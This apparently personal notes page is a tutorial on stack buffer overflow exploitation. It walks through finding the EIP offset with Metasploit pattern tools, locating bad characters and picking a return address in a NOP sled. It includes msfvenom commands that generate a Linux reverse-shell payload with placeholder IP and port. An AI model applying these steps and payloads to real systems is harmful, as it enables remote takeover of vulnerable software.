```yaml
---
title: Notes | Reverse | BOF
author: BatBato
date: 2022-12-07
categories: [Notes, Reverse, BOF]
tags: [Reverse, BOF]
permalink: /Notes/Reverse/BOF
---
```


# Buffer Overflow

From here I'm assuming that you already know a bit about ASM (```mov```, ```call```, ```lea```...). If you don't there is a good introduction in [here](https://cloud.isi.insa-cvl.fr/s/qWmEqLkSGXnkLZn).

So basicaly, the buffer overflow attack apear when you don't pay attention to the user input and that he gives you a greater input that what you expected. This surplus, will overwrite the memory.

We need to keep in mind the endianness of the program. If for example, we have a word ```\xAA\xBB\xCC\xDD``` at the address ```0xffff0000```, then depending on the endianness the word will be read differently :

| Memory Address | 	0xffff0000 | 	0xffff0001 | 	0xffff0002 | 	0xffff0003 |
|---|---|---|---|---|
| Big-Endian 	|AA | 	BB | 	CC | 	DD |
| Little-Endian | 	DD | 	CC | 	BB | 	AA |

What we would like to do is to give a greater input than the one expected so that we overwrite the return of the program. Thanks to that, we will be able to call another function or something else in the memory. Here is an image that shows basically what we want to do :

![image](https://user-images.githubusercontent.com/73934639/206201166-ef62b19e-10da-4ae2-a3b5-d7139375b54f.png){: width="300" height="100" }

At first, we will try to find the main function and its address. For that, we can use gdb or radar2. I will continue this explanation using gdb syntax but it is basically the same on r2. We will run the program until we get to the input part, when we get there we can input a large number of ```A``` and if we inputed enought A, we should get a :
```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
The ```41``` are the hexadecimal value of ```A```. Now that we know that we overwrote the return address we need to find how much ```A``` we need to input before getting a segmentation fault. We can use the ```pattern_offset``` tool of ```metasploit``` to generate a random string of certain length so we don't have a bunch of ```41``` in the memory. We can use it as follows:
```sh
pattern_create.rb -l 1200
```
>This program should be in the ```metasploit-framework``` folder. On my computer it is located at ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb``` {: .prompt-info }

We can use the gdb command to find the address of ```EIP``` (respectively ```RIP``` depending on the architecture) :
```sh
info registers eip
```
With this information you can use the metasploit ```pattern_offset.rb``` tool to find the exact offset. Or if you are good in ASM you can look what is the length of the word you give in input. You can use the tool as follows (where 0xaabbccdd is the address of eip you found earlier):
```pattern_offset.rb -q 0xaabbccdd```

> You can find ```pattern_offset.rb``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb``` {: .prompt-info}

We will assume that we have an offset of 64 for the rest of the demonstration. Now we can run the program again with the offset length as input and 4 bytes of "B"s. 4 is the size of the address. Here is an example:
```sh
"A" * 64 + "B"*4
```
You can use this python command to generate your strings: 
```sh
python -c "print 'A' * 64 + 'B' * 4"
```
With this input we should only have the 4 "B"s as EIP address like:
```sh
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
For this first part of BOF, we will use [msfvenom](https://www.kali.org/tools/metasploit-framework/#msfvenom). To use it to create a payload, we can use the following command:
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=PORT --platform linux --arch x86 --format python
```
> Don't forget to replace ```IP``` with yours. Same for the ```PORT```. {: .prompt-tip}

Now if this is too long you can change it to a simple shell instead of a reverse one.
The composition of our final payload will be:
```
Buffer = "C" * (64 - 10 - 40 - 4) = 10
NOPs = "\x90" * 10
Shellcode = "A" * 40
EIP = "B" * 4
```
> ```\x90``` is the hexadecimal value of the ```NOP``` instruction. {: .prompt-tip}

## Bad Characters

Your payload may not work because of some ```Bad Characters```. They are generaly ```\x00``` (Null byte),```\x0A``` (Line Feed),```\x0D``` (Carriage Return),```\xFF``` (Form Feed).

Here is the list of all chars from ```\x00``` to ```\xFF```:
```sh
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
You can remove the NOPs and the shellcode from the previous payload and replace them by this list. If the list is too long (256 chars) you can do it multiple time with different parts of the list. Now you can set a breakpoint just after the input so that we can analyse the memory. When the program hits the breakpoint, we can look at the ```EIP``` like that ```x/2000xb $esp+500```. We will see a bunch of ```0x43``` (our "C"s). At the end of our "C"s we should see the characters of our previous list. If a character isn't printed out, it means that it is a bad character. You can repeat those steps until you removed all the bad characters.

> Don't forget to change the number of "C"s when you remove a character from the list. The number of "C"s should increase by one each time you remove a bad character.{:.prompt-warning}

You can now use the previous ```msfvenom``` command specifying all bad characters:
```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT  --arch x86 --platform linux --format python --bad-chars "\x00\x09\x0a"
```

## Identification of the Return Address

Now we should replace our 4 "B"s by the address of our shellcode. For that we need to analyse the memory. We can do so like:
```sh
x/2000xb $esp+1400
```

We will where our NOPs (```0x90```) end and where our shellcode begins. For example, if the NOPs end at ```0xffffaabb```, then we will replace our 4 "B"s by ```\xbb\xaa\xff\xff```. To be more accurate we can chose an address that is full of NOP a bit before ```0xffffaabb```like ```0xffffaaaa``` for example.

# ROP chain attack
```comming soon```
